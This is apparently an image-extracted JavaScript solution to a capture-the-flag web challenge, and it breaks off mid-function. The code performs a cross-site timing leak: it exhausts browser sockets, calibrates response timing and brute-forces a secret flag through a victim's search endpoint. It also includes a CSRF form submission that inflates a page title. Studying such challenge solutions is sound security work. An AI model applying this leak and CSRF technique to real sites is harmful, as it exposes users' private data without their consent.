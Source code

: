 ``` html

const calibrate = async () => {
    return new Promise(async (r) => {
        // slow
        let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
        let t1 = await timeit(url1, WINBG)
        console.log(`slow:${t1}`)
        // fast
        let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
        let t2 = await timeit(url2, WINBG)
        console.log(`fast:${t2}`)
        return r((t1 + t2) / 2)
    });

}

const exploit = async(flag = '') => {
    console.log('Starting')
    // dont go to fast plz :) 
    console.log(`waiting 3s`)
    await sleep(3000)
    // exaust sockets
    await exhaust_sockets()
    await sleep(2000)
    LOG = `Calibrating`
    TIMELIMIT = await calibrate()
    LOG = `TIMELIMIT:${TIMELIMIT}`
    console.log(`timelimit:${TIMELIMIT}`)
    await sleep(2000)
    let last;
    while (true) {
        last = await brute(flag);
        if (last === false) {
            return flag;
        } 
        else {
            flag += last;
            output.innerText = flag;
            if(last === '}'){
                return flag
            }
        }
    }
}

const popunder = () => {
    if (window.opener) {
            WINBG = window.opener
    } 
    else {
        WINBG = window.open(location.href, target="_blank")
        location = `about:blank`
    }
}

const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
    x.title.value = "A".repeat(1000000)
    x.submit()
}

window.onload = () => {
    let p = new URL(location).searchParams;
```